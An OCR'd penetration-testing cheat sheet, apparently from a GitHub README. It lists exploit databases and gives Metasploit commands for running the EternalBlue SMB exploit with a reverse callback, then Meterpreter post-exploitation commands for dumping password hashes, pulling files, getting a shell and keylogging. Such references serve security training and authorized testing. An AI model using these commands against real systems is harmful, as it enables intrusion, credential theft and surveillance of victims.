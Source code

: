 **Key Exploit Databases:**
- **ExploitDB**: https://www.exploit-db.com/
- **Rapid7 DB**: https://www.rapid7.com/db/
- **Vulners**: https://vulners.com/
- **Packet Storm**: https://packetstormsecurity.com/

---

## 💥 Metasploit Framework

### MSFconsole Core Commands

| # | Command | Description |
|---|---------|-------------|
| 1 | `msfconsole` | Start Metasploit console |
| 2 | `search apache` | Search for exploits/modules |
| 3 | `use exploit/windows/smb/ms17_010_eternalblue` | Select a module |
| 4 | `show options` | Show module options |
| 5 | `set RHOSTS 10.10.10.10` | Set remote host target |
| 6 | `set LHOST 10.10.14.5` | Set local host (your IP) |
| 7 | `set LPORT 4444` | Set local port for callback |
| 8 | `exploit` or `run` | Execute the exploit |
| 9 | `sessions -l` | List active sessions |
| 10 | `sessions -i 1` | Interact with session #1 |

### Meterpreter Commands (Post-Exploitation)

| # | Command | Description |
|---|---------|-------------|
| 1 | `sysinfo` | Get system information |
| 2 | `getuid` | Get current user ID |
| 3 | `ps` | List running processes |
| 4 | `migrate PID` | Migrate to another process |
| 5 | `hashdump` | Dump password hashes |
| 6 | `download /path/file.txt` | Download file from target |
| 7 | `upload /local/file.txt /remote/path/` | Upload file to target |
| 8 | `shell` | Get system shell |
| 9 | `screenshot` | Take screenshot |
| 10 | `keyscan_start` | Start keylogger |
